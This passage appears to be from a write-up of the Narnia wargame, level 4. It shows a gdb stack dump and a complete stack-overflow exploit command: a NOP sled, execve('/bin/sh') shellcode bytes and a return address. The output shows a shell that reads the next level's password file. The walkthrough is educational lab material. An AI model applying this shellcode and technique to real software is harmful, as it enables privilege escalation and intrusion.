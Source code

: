 0xffffd6b0:	0xffffdf80	0xffffdfa0	0xffffdfc0	0x00000000
0xffffd6c0:	0x00000020	0xf7fdbb60	0x00000021	0xf7fdb000
0xffffd6d0:	0x00000010	0x1f898b75	0x00000006	0x00001000
0xffffd6e0:	0x00000011	0x00000064	0x00000003	0x08048034
0xffffd6f0:	0x00000004	0x00000020	0x00000005	0x00000008
0xffffd700:	0x00000007	0xf7fdc000	0x00000008	0x00000000
0xffffd710:	0x00000009	0x080483b0	0x0000000b	0x000036b4
0xffffd720:	0x0000000c	0x000036b4	0x0000000d	0x000036b4
0xffffd730:	0x0000000e	0x000036b4	0x00000017	0x00000000
0xffffd740:	0x00000019	0xffffd76b	0x0000001f	0xffffdfe2
0xffffd750:	0x0000000f	0xffffd77b	0x00000000	0x00000000
0xffffd760:	0x00000000	0x00000000	0x9e000000	0x9213cb6c
0xffffd770:	0x8eef41b1	0xe0574cc7	0x69a73659	0x00363836
0xffffd780:	0x00000000	0x00000000	0x00000000	0x2f000000
0xffffd790:	0x656d6167	0x616e2f73	0x61696e72	0x72616e2f
0xffffd7a0:	0x3461696e	0x61616100	0x61616161	0x61616161
0xffffd7b0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7c0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7d0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7e0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7f0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd800:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd810:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd820:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd830:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd840:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd850:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd860:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd870:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd880:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd890:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd8a0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd8b0:	0x61616161	0x62626261	0x00000062	0x00000000
0xffffd8c0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd8d0:	0x00000000	0x00000000	0x00000000	0x00000000
{{< / highlight >}}

Our input starts at around *0xffffd7a8* so let's get going writing our payload.
Create a nopsled that is *272 - 25* bytes long, follow that with the
the same shellcode as before, and finish with an address that sits comfortably
in the sled. You normally need to play with the address a bit, as the offsets
inside *gdb* are a bit different.

{{< highlight console >}}
narnia4@melinda:/narnia$ ./narnia4 `python -c "print '\x90'*(272-25) + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + '\x30\xd8\xff\xff'"`
$ whoami
narnia5
$ cat /etc/narnia_pass/narnia5
[password]
{{< / highlight >}}
